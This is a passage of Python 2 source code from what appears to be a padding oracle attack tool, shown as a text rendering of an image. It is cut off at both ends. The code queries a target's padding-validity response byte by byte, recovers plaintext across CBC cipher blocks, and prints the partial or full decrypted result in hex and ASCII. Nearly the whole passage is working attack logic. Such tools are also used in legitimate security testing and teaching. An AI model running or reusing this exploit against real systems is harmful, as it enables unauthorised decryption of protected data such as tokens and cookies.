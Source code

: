 ```

                        sys.stdout.write("\r[+] Test [Byte %03i/256 - Block %d ]: \033[31m%s\033[33m%s\033[36m%s\033[0m" % (ct_pos, block, find_me, current, discover))
                        sys.stdout.flush()

                    if test_validity(response):

                        found = True
                        #connection.close()
                        
                        # data analyse and insert in rigth order
                        value = re.findall('..',bk)
                        valide_value.insert(0,value[size_block-(i+1)])

                        if verbose == True:
                            print ''
                            print "[+] Block M_Byte : %s"% bk
                            print "[+] Block C_{i-1}: %s"% bp
                            print "[+] Block Padding: %s"% bc
                            print ''

                        bytes_found = ''.join(valide_value)
                        if i == 0 and bytes_found.decode("hex") > hex(size_block) and block == len(cipher_block)-1:
                            print "[-] Error decryption failed the padding is > "+str(size_block)
                            sys.exit()

                        print '\033[36m' + '\033[1m' + "[+]" + '\033[0m' + " Found", i+1,  "bytes :", bytes_found
                        print ''

                        break 
            if found == False:
                # lets say padding is 01 for the last byte of the last block (the padding block)
                if len(cipher_block)-1 == block and i == 0:
                    value = re.findall('..',bk)
                    valide_value.insert(0,"01")
                    if verbose == True:
                        print ''
                        print '[-] No padding found, but maybe the padding is length 01 :)'
                        print "[+] Block M_Byte : %s"% bk
                        print "[+] Block C_{i-1}: %s"% bp
                        print "[+] Block Padding: %s"% bc
                        print ''
                        bytes_found = ''.join(valide_value)
                else:
                    print "\n[-] Error decryption failed"
                    result.insert(0, ''.join(valide_value))
                    hex_r = ''.join(result)
                    print "[+] Partial Decrypted value (HEX):", hex_r.upper()
                    padding = int(hex_r[len(hex_r)-2:len(hex_r)],16)
                    print "[+] Partial Decrypted value (ASCII):", hex_r[0:-(padding*2)].decode("hex")
                    sys.exit()
            found = False

        result.insert(0, ''.join(valide_value))
        valide_value = []

    print ''
    hex_r = ''.join(result)
    print "[+] Decrypted value (HEX):", hex_r.upper()
    padding = int(hex_r[len(hex_r)-2:len(hex_r)],16)
```
